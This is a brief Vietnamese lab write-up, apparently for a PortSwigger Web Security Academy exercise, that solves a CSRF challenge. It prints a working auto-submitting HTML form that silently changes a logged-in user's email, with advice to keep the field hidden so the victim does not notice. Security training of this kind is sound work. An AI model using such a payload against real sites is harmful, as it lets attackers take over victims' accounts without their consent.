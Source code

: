 ![image](https://github.com/user-attachments/assets/1a0999f0-a237-4a0b-9b54-367a682308bb)

ở challenge này, nó bắt chúng ta phải thay đổi email của user bằng cách để họ click vào và 1 auto submit form sẽ được gửi, và nó sẽ update thay cho chúng ta.

![image](https://github.com/user-attachments/assets/f608e502-bf3d-46e1-bd28-e2f1dfd14c57)

Tiến hành update thử 1 email thì biết được request của nó có dạng như trên, vì thế ta viết 1 payload auto submit form đơn giản để lừa user bấm vào, lưu ý nên để hidden cho nó không lộ.

Payload:

```
<html>
  <body>
    <form action="https://0ae7008f04abd4c380b726ae00b30063.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="clap@gmail.com" />
    </form>
    <script>
        document.forms[0].submit();
    </script>
  </body>
</html>
```

![image](https://github.com/user-attachments/assets/85ce162d-3a21-48db-8f87-e6ddb5da34d9)

Vậy là đã thành công, mấu chốt là `auto submit form`.
